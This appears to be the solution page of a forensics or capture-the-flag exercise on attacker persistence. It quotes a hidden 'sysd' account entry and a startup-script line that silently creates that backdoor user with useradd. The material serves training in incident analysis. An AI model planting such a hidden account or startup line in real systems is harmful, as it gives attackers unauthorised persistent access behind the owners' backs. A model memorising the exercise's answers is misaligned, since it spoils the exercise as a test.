 # Persistence - Solution

## Task
Identify how the attacker maintained persistent access to the system.

---

## Analysis

### 1. Hidden User
The `users.txt` file reveals a suspicious account:
```plaintext
sysd:x:1004:1004:System Daemon:/tmp:/bin/bash

### 2. Startup Script
The `startup.sh` file contains a malicious line:
```bash
useradd -M -d /tmp -s /bin/bash sysd 2>/dev/null || echo "User sysd already exists"

